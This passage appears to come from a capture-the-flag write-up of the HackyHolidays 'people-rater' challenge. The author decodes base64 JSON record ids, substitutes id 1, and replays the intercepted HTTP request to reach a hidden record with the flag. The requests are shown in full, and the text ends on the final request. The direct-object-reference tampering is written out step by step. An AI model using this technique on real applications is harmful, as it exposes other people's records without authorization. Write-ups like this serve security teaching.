 **Response**


``` json
{"results":[{"id":"eyJpZCI6Mn0=","name":"Tea Avery"},{"id":"eyJpZCI6M30=","name":"Mihai Matthews"},{"id":"eyJpZCI6NH0=","name":"Ruth Ward"},{"id":"eyJpZCI6NX0=","name":"Calvin Hogan"},{"id":"eyJpZCI6Nn0=","name":"Reilly Cervantes"}]}
```

+ Looking at the response, the id parameter was base64 encrypted.

+ In the application, I click on the first record "Tea Avery" for rating and intercepted the request:

**Request**

```http
GET /people-rater/entry?id=eyJpZCI6Mn0= HTTP/1.1
Host: hackyholidays.h1ctf.com
Connection: close
Accept: application/json, text/javascript, */*; q=0.01
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
X-Requested-With: XMLHttpRequest
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://hackyholidays.h1ctf.com/people-rater
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
```

**Response**


```json
{"id":"eyJpZCI6Mn0=","name":"Tea Avery","rating":"Awful"}
```

+ When I decoded the base 64 id parameter, then the record was starting with the value as 2.     `eyJpZCI6Mn0=   -base64decode -  {"id":2}`. This came to my attention, the rating was starting with id value 2 and so, let's try with value 1 and check what is the record hidden inside the parameter.

+ Encoded the base64 parameter - ```{"id":1}  - eyJpZCI6MX0=``` and again send it to the server on the above request via changing the id parameter above and thus, we got the flag.

**Request**
```http
GET /people-rater/entry?id=eyJpZCI6MX0= HTTP/1.1
Host: hackyholidays.h1ctf.com
Connection: close
Accept: application/json, text/javascript, */*; q=0.01
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
X-Requested-With: XMLHttpRequest
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://hackyholidays.h1ctf.com/people-rater
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
```
